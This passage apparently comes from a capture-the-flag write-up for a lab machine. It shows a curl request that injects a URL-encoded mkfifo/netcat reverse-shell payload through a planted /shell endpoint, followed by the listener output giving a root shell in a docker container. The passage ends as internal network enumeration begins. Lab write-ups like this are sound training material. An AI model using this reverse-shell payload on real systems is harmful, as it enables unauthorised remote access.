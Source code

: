 ![Overwriting the views.py](6.png "Overwriting the views.py")

Now we start a netcat listener and browse the `/shell` endpoint with a reverse shell payload.

```
┌──(saad👻ssaadakhtarr)-[~/…/machines/opensource/app/app]
└─$ curl 'http://10.10.11.164/shell?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.14.55%204444%20>/tmp/f'
```

And we got the foothold.

```
┌──(saad👻ssaadakhtarr)-[~/…/machines/opensource/app/app]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.11.164] 39869
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app #
```

We are inside a `docker` container as `root`.

### Analyzing the internal network

Looking at the `ip` of our target machine we are part of `172.17.0.1` network.

![ip address](7.png "ip address")

Listing the currently running services.
